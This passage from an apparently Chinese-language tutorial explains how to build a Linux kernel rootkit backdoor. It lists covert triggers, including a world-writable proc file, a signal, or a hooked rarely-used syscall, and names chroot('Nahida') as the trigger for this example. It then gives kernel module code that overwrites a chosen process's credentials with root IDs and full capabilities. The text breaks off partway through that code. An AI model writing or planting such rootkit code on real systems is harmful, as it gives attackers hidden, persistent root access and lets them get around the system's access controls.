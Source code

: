 ### [](#7600b6a01c694c499bb947701d46e597 "如何触发后门")如何触发后门

这方法就多种多样了，比如：

1.  在 proc 目录下生成一个 666 的文件，对其写入指定内容后提权到 root

2.  给进程发送某指定信号

3.  修改某指定系统调用，传入某指定参数后触发

> 建议：使用冷门系统调用减少对性能的影响

等等等等，都可以触发，看哪个更适合自己就行。

### [](#29137223c98749958083ed2b77cfdcb1 "代码时间到")代码时间到

本例子触发方式：

chroot(”Nahida”)

#### [](#d2641cebcdd8459f80efefb85b355cc7 "内核模块")内核模块

```
#include "linux/uidgid.h"
#include <linux/cpu.h>
#include <linux/memory.h>
#include <linux/uaccess.h>
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kprobes.h>
#include <linux/printk.h>
#include <linux/string.h>
#include <asm-generic/errno-base.h>

#ifdef pr_fmt
#undef pr_fmt
#define pr_fmt(fmt) "Rootkit: " fmt
#endif

static inline void set_cred_root(struct cred* cred){
	cred->uid = cred->suid = cred->euid = cred->fsuid = GLOBAL_ROOT_UID;
	cred->gid = cred->sgid = cred->egid = cred->fsgid = GLOBAL_ROOT_GID;
	memset(&cred->cap_inheritable, 0xFF, sizeof(kernel_cap_t));
	memset(&cred->cap_permitted, 0xFF, sizeof(kernel_cap_t));
	memset(&cred->cap_effective, 0xFF, sizeof(kernel_cap_t));
}

static inline int set_process_root(int pid) {
	int ret = 0;
	struct task_struct* task = NULL;
	struct cred* real_cred = NULL;
	struct cred* cred = NULL;
	struct pid* proc_pid_struct = NULL;
	proc_pid_struct = find_get_pid(pid);
	if (!proc_pid_struct) {
		ret = -ESRCH;
		goto out;
	}
	task = get_pid_task(proc_pid_struct, PIDTYPE_PID);
	if (!task) { 
		ret = -ESRCH;
		goto out_pid;
	}
	real_cred = (struct cred*)task->real_cred;
	if (real_cred) {
		set_cred_root(real_cred);
	}
```